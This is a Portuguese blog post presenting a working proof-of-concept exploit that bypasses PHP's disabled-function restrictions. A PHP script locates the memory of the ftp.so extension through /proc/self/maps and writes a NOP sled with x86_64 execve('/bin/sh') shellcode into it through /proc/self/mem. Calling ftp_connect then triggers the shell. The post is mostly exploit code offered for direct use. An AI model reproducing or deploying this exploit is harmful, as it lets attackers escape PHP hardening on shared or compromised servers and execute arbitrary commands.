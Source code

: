 ```yaml
---
layout: post
comments: true
title: "PHP bypass injetando shellcode"
---
```


Vou escrever sobre um jeito de injetar shellcode no php, e executar comandos
no sistema, burlando possiveis funções desabilitadas como system e shell_exec,
por exemplo, infelizmente essa tecnica não permite burlar todo o safe_mode
do php, porque tem a limitação do open_basedir, essa é unica limitação
propriamente dita, e se as funções para leitura de arquivo, e a função seek
também estiverem desabilitadas então não funciona.

-- show the code --

A tecnica funciona da seguinte maneira, o php vai carregar varias extensões 
na memoria, e ai vamos pegar o range de memoria de uma extensão qualquer,
e vamos sobrescrever com nops e com o shellcode, e no codigo php iremos
chamar uma função que corresponde a extensão sobrescrita, quando ela chamar a
lib que foi sobrescrita, BOOM, vai executar o shellcode.

## poc

{% highlight php %}
<?php

	/* getting address range of extesion */
	function get_extension_range($name){
		$maps = fopen("/proc/self/maps", "r");
		while(!feof($maps)){
			$line = fgets($maps);
			if( preg_match("/(\w+)-(\w+)\s*r-xp.*modules\/${name}.*/", $line, $matches) ){
				fclose($maps);
				return array(hexdec($matches[1]), hexdec($matches[2]));
			}
		}
		return array();
	}

	function generate_shellcode($range, $shellcode){
		$sc = str_repeat("\x90", $range[1]-$range[0]-strlen($shellcode));
		$sc .= $shellcode;
		return $sc;
	}

	function write_memory($position, $string){
		$mem = fopen("/proc/self/mem","w+");
		fseek($mem, $position);
		fwrite($mem, $string);
		fclose($mem);
	}

	$range = get_extension_range("ftp.so");

	if(empty($range)){
		die("failed to find extension...");
	}

	/* execve("/bin/sh", ["/bin/sh"], NULL) for linux x86_64 */
	$shellcode = 	"\x48\x31\xff\x48\xf7\xe7\xb0\x3b\x48\xbf\x66".
			"\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08".
			"\x57\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

	$shellcode_with_nops = generate_shellcode($range, $shellcode);
	write_memory($range[0], $shellcode_with_nops);


	/* call extension to exec shellcode */
	ftp_connect("matrix");



?>
{% endhighlight %}
<script type="text/javascript" src="https://asciinema.org/a/83869.js" id="asciicast-83869" async></script>

